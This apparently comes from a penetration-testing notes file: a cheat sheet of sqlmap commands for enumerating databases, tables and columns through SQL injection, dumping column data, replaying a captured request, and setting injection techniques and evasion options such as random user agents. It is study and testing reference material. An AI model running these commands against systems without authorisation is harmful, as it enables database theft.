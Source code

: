# Sqlmap
## Dumping specific informatin from database
### Listing information about the existing databases 
DBMS databases enumeration:
```
sqlmap -u $ip --dbs 
```

### Listing information about tables present in a particular database
```
sqlmap -u $ip -D DatabaseName --tables 
```

### Listing information about the columns of a particular table
```
sqlmap -u $ip -D DatabaseName -T TableName --columns
```

### Dumping the data from particular column
```
sqlmap -u $ip -D DatabaseName -T TableName -C ColumnName --dump
```


## Exploitation via specific packet
```
# Copy request to file e.g req.txt
sqlmap -r req.txt -p VulnerableParameter --dbs
...
```

## Providing specific information to sqlmap
```
--data "DataToBeSent"
-p ParameterToInjectTo
--dbms <DBMStype>
--proxy=PROXY
--random-agent
--technique=BEUSTQ
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries
```
